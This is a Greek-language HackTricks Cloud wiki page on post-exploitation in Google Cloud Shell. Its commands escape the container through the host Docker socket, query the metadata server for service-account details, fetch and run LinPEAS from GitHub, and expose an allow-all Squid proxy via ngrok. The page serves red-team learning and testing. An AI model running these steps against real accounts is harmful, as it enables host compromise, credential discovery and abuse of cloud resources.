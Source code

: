 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Για περισσότερες πληροφορίες σχετικά με το Cloud Shell ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Σημειώστε ότι το Google Cloud Shell εκτελείται μέσα σε ένα κοντέινερ, μπορείτε **εύκολα να διαφύγετε στον κεντρικό υπολογιστή** κάνοντας: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Αυτό δεν θεωρείται ευπάθεια από την Google, αλλά σας δίνει μια ευρύτερη εικόνα του τι συμβαίνει σε αυτό το περιβάλλον.

Επιπλέον, παρατηρήστε ότι από τον κεντρικό υπολογιστή μπορείτε να βρείτε ένα διακριτικό λογαριασμού υπηρεσίας:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Με τους ακόλουθους τομείς:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Καταγράψτε τα μεταδεδομένα με το LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Μετά τη χρήση του [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) με το token του Service Account **δεν ανακαλύφθηκε καμία άδεια**...

### Χρησιμοποιήστε το ως Proxy

Αν θέλετε να χρησιμοποιήσετε την περίπτωση google cloud shell σας ως proxy, πρέπει να εκτελέσετε τις παρακάτω εντολές (ή να τις εισάγετε στο αρχείο .bashrc):
```bash
sudo apt install -y squid
```
Απλώς για να σας ενημερώσω, το Squid είναι ένας διακομιστής http proxy. Δημιουργήστε ένα **squid.conf** αρχείο με τις παρακάτω ρυθμίσεις:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
αντιγράψτε το **squid.conf** αρχείο στο **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Τέλος, εκτελέστε την υπηρεσία squid:
```bash
sudo service squid start
```
Χρησιμοποιήστε το ngrok για να καταστήσετε τον διακομιστή μεσολάβησης διαθέσιμο από έξω:
```bash
./ngrok tcp 3128
```
Μετά την εκτέλεση, αντιγράψτε το tcp:// url. Εάν θέλετε να εκτελέσετε τον proxy από έναν περιηγητή, προτείνεται να αφαιρέσετε το tcp:// μέρος και την θύρα και να βάλετε την θύρα στο πεδίο θύρας των ρυθμίσεων proxy του περιηγητή σας (το squid είναι ένας http proxy server).

Για καλύτερη χρήση κατά την εκκίνηση, το αρχείο .bashrc θα πρέπει να έχει τις εξής γραμμές:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Οι οδηγίες αντιγράφηκαν από [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Ελέγξτε αυτή τη σελίδα για άλλες τρελές ιδέες για να τρέξετε οποιοδήποτε είδος λογισμικού (βάσεις δεδομένων και ακόμη και Windows) στο Cloud Shell.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
